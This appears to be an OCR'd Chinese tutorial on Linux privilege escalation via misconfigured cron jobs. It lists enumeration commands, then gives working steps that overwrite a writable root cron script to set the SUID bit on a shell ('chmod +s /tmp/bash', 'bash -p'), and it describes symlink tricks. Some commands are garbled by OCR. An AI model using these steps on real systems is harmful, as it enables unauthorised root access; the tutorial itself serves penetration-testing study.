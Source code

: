 Cron特权升级概述
cron守护程序计划在指定的日期和时间运行命令。它与特定用户一起运行命令。因此，我们可以尝试滥用它来实现特权升级。

滥用cron的一个好方法是，

1.检查cron运行的脚本的文件权限。如果权限设置不正确，则攻击者可能会覆盖文件并轻松获取cron中设置的用户权限。

2.另一种方法是使用通配符技巧

Cron**信息收集**

一些基本命令收集一些线索，以使用错误配置的cron实现特权升级。

命令结果crontab -l显示当前用户的cronls -la /etc/cron*显示计划的作业概述

具有特权的运行脚本，其他用户可以编辑该脚本。

查找特权用户拥有但可写的任何内容：

crontab -lls -alh /var/spool/cronls -al /etc/ | grep cronls -al /etc/croncat /etc/croncat /etc/at.allowcat /etc/at.denycat /etc/cron.allowcat /etc/cron.denycat /etc/crontabcat /etc/anacrontabcat /var/spool/cron/crontabs/root

查看其他用户的crontab

$ crontab -u tstark -l0 0 / jarvis / reboot-arc-reactor

如果服务器上有很多用户，那么可以在cron日志中看到详细信息，可能包含用户名。

例如，在这里我可以看到运行数据库备份脚本的ubuntu用户：

8月5日4:05:01 dev01 CRON [2128]：（ubuntu）CMD（/var/cronitor/database-backup.sh）

使用pspy工具（32位为pspy32，64位为pspy64）。

下载链接：https://github.com/DominicBreuker/pspy

利用配置错误的cronjob获得root访问权限

$ ls -la /etc/cron.d –输出cron.d中已经存在的cronjob

find / -perm -2 -type f 2> / dev / null –输出可写文件

ls -la /usr/local/sbin/cron-logrotate.sh –让我们确认cron-logrotate.sh是否可写。

我们知道cron-lograte.sh是可写的，它由logrotate cronjob运行。
那么我们在cron-lograte.sh中编写/附加的任何命令都将以“ root”身份执行。

我们在/ tmp目录中编写一个C文件并进行编译。

rootme可执行文件将生成一个shell。

$ ls -la rootme –它告诉我们它是由用户'SHayslett'拥有的
$ echo“ chown root：root / tmp / rootme; chmod u + s /tmp/rootme;”>/usr/local/sbin/cron-logrotate.sh –这将更改可执行文件的所有者和组为root。它还将设置SUID位。$ ls -la rootme – 5分钟后，运行了logrotate cronjob，并以root特权执行了cron-logrotate.sh。$ ./rootme –生成一个root shell。
Cron脚本覆盖和符号链接
如果可以修改由root执行的cron脚本，则可以非常轻松地获取shell：
echo ‘cp /bin/bash /tmp/bash; chmod +s /tmp/bash’ > #Wait until it is executed/tmp/bash -p＃等待执行

/ tmp / bash -p

如果root用户执行的脚本使用具有完全访问权限的目录，则删除该文件夹并创建一个符号链接文件夹到另一个服务于您控制的脚本的文件夹可能会很有用。
